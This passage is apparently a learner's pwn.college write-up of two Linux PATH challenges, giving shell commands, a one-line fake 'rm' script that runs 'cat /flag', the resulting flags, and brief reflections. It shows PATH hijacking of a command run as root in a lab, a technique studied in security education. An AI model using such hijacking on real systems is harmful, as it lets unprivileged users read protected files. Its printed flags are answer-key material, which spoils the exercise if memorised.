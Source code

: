 ```
hacker@path~adding-commands:~$ nano win
hacker@path~adding-commands:~$ chmod +x /home/hacker/win
hacker@path~adding-commands:~$ PATH="/run/dojo/bin:/home/hacker"
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{0D_wQfnZMCqDD2018FX2RSf4dXq.QX2cjM1wiM2gjNzEzW}

```

## What I Learned

I learnt how to create my own commands by writing a script and adding its directory to the `PATH`. I also learnt that the `PATH` needs to include directories for all the commands that will be used, including those used by my script.

## References

The problem statement provided was the reference used.

```
...make a shell script called win, add its location to the PATH, and enable /challenge/run to find it!
Hint: /challenge/run runs as root and will call win. Thus, win can simply cat the flag file.
Again, the win command is the only thing that /challenge/run needs, so you can just overwrite PATH with that one directory.
But remember, if you do that, your win command won't be able to find cat.
```

# 5. Hijacking Commands

This challenge prompted me to hijack a command by creating a fake program and manipulating the `PATH`.

## My Solve

**Flag:** `pwn.college{IcBJqE7Jf1AOKVKkGss8esuhI5C.QX3cjM1wiM2gjNzEzW}`

To stop `/challenge/run` from deleting the flag, I created my own script named `rm` that would `cat /flag` instead. I made it executable with `chmod +x`, then prepended the current directory (`.`) to my `PATH`. This made the shell find my `rm` script before the real one, so when `/challenge/run` tried to delete the flag, it printed it instead.

Content of my `rm` script:

```
#!/bin/bash

cat /flag
```

```
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$  chmod +x rm
hacker@path~hijacking-commands:~$ PATH=".:$PATH"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{IcBJqE7Jf1AOKVKkGss8esuhI5C.QX3cjM1wiM2gjNzEzW}

```
